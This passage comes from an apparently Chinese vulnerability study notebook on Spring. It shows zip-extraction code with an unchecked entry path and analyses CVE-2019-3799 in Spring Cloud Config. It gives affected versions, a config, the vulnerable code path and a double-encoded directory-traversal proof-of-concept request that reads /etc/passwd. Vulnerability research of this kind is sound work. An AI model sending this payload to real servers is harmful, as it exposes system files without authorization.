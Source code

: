 ```
        final String zipEntryName = zipEntry.getName();
						
	if (ZipResultType.FILE.equals(zipResultType)) {
		final File tempDir = new File(workDirectory, message.getHeaders().getId().toString());
		tempDir.mkdirs(); //NOSONAR false positive
		final File destinationFile = new File(tempDir, zipEntryName);

		if (zipEntry.isDirectory()) {
			destinationFile.mkdirs(); //NOSONAR false positive
		}
		else {
			SpringZipUtils.copy(zipEntryInputStream, destinationFile);
			uncompressedData.put(zipEntryName, destinationFile);
		}
	}
}
```

### （10）Spring Cloud Config
CVE-2019-3799、CVE-2020-5405、CVE-2020-5410类似，可复用同一环境，更改Spring Cloud Config版本即可

#### CVE-2019-3799 Directory Traversal
Affected Version: < 2.1.2 or 2.0.4 or 1.4.6

Diff: https://github.com/spring-cloud/spring-cloud-config/commit/3632fc6f64e567286c42c5a2f1b8142bfde505c2

POC:
```
GET /a/b/test/..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd
```
Conf:（远程）
```
info:
  component: Config Server
spring:
  application:
    name: configserver
  autoconfigure.exclude: org.springframework.boot.autoconfigure.jdbc.DataSourceAutoConfiguration
  jmx:
    default_domain: cloud.config.server
  cloud:
    config:
      server:
        git:
          uri: https://github.com/spring-cloud-samples/config-repo
          repos:
            - patterns: multi-repo-demo-*
              uri: https://github.com/spring-cloud-samples/config-repo
```
Factor: 
```
org.springframework.cloud.config.server.resource.ResourceController
@RequestMapping("/{name}/{profile}/{label}/**")
public String retrieve(...){
    String path = getFilePath(request, name, profile, label);  // -> decodeAndCleanUriString()
    return retrieve(name, profile, label, path, resolvePlaceholders); // -> findOne()
}
	
	
org.springframework.web.util.UrlPathHelper
private String decodeAndCleanUriString(HttpServletRequest request, String uri) {
    uri = this.removeSemicolonContent(uri);  //移除";"号
    uri = this.decodeRequestString(request, uri); //进行url解码
    uri = this.getSanitizedPath(uri);  //处理"//"
```